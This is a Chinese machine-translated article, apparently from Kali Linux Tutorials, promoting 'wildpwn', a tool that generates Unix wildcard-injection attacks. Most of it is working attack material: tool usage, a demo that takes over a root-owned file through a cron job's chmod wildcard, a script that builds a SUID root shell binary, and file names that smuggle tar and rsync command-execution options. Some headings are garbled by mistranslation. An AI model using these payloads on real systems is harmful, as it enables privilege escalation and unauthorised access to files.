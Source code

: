 # wild pwn–用于 Unix 通配符攻击的工具

> 原文：<https://kalilinuxtutorials.com/wildpwn-unix-wildcard-attacks/>

**Wildpwn** 是一个 Python UNIX 通配符攻击工具，帮助你生成攻击。它被认为是一个相当古老的攻击媒介，但它仍然经常工作。

## **Wildpwn 用法**

事情是这样的:

```
usage: wildpwn.py [-h] [--file FILE] payload folder

Tool to generate unix wildcard attacks

positional arguments:
  payload      Payload to use: (combined | tar | rsync)
  folder       Where to write the payloads

optional arguments:
  -h, --help   show this help message and exit
  --file FILE  Path to file for taking ownership / change permissions. Use it
               with combined attack only.
```

## **有效载荷类型**

*   **组合:**使用 chown & chmod 文件引用技巧，在 4.1 和 4.2 节中描述，组合在一个有效载荷中。
*   **tar:** 使用 tar 任意命令执行技巧，如 4.3 节所述。
*   **rsync:** 使用 rsync 任意命令执行技巧，如 4.4 节所述。

**又读[SV Scanner——扫描器漏洞和大规模利用](https://kalilinuxtutorials.com/svscanner-vulnerability-massive-exploit/)**

## **例子**

```
$ ls -lh /tmp/very_secret_file
-rw-r--r-- 1 root root 2048 jun 28 21:37 /tmp/very_secret_file

$ ls -lh ./pwn_me/
drwxrwxrwx 2 root root 4,0K jun 28 21:38 .
[...]
-rw-rw-r-- 1 root root    1024 jun 28 21:38 secret_file_1
-rw-rw-r-- 1 root root    1024 jun 28 21:38 secret_file_2
[...]

$ python wildpwn.py --file /tmp/very_secret_file combined ./pwn_me/
[!] Selected payload: combined
[+] Done! Now wait for something like: chown uid:gid *  (or)  chmod [perms] * on ./pwn_me/. Good luck!

[...time passes / some cron gets executed...]

# chmod 000 * (for example)

[...back with the unprivileged user...]

$ ls -lha ./pwn_me/
[...]
-rwxrwxrwx 1 root root    1024 jun 28 21:38 secret_file_1
-rwxrwxrwx 1 root root    1024 jun 28 21:38 secret_file_2
[...]

$ ls -lha /tmp/very_secret_file
-rwxrwxrwx 1 root root 2048 jun 28 21:38 /tmp/very_secret_file
```

## 用于 tar/rsync 攻击的 Bash 脚本

```
#!/bin/sh

# get current user uid / gid
CURR_UID="$(id -u)"
CURR_GID="$(id -g)"

# save file
cat > .cachefile.c << EOF
#include <stdio.h>
int main()
{
setuid($CURR_UID);
setgid($CURR_GID);
execl("/bin/bash", "-bash", NULL);
return 0;
}
EOF

# make folder where the payload will be saved
mkdir .cache
chmod 755 .cache

# compile & give SUID
gcc -w .cachefile.c -o .cache/.cachefile
chmod 4755 .cache/.cachefile
```

#### **清理(焦油)**

```
# clean up
rm -rf ./'--checkpoint=1'
rm -rf ./'--checkpoint-action=exec=sh .webscript'
rm -rf .webscript
rm -rf .cachefile.c
```

#### **清理(rsync)**

```
# clean up
rm -rf ./'-e sh .syncscript'
rm -rf .syncscript
rm -rf .cachefile.c
```

[![](img/d861a9096555aeb1980fc054015933d7.png) ](https://github.com/localh0t/wildpwn/) **信用:莱昂·尤拉尼克**